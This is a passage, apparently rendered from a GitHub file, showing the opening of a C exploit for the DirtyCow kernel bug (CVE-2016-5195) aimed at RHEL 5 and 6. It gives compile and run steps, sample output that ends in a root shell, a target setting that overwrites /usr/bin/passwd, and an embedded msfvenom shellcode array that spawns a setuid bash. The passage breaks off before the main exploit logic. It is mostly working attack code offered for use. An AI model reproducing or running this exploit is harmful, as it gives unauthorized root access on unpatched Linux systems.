 ```
	/*
* A PTRACE_POKEDATA variant of CVE-2016-5195
* should work on RHEL 5 & 6
* 
* (un)comment correct payload (x86 or x64)!
* $ gcc -pthread c0w.c  -o c0w
* $ ./c0w
* DirtyCow root privilege escalation
* Backing up /usr/bin/passwd.. to /tmp/bak
* mmap fa65a000
* madvise 0
* ptrace 0
* $ /usr/bin/passwd 
* [root@server foo]# whoami 
* root
* [root@server foo]# id
* uid=0(root) gid=501(foo) groups=501(foo)
* @KrE80r
*/
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <unistd.h>

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char shell_code[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

/*
```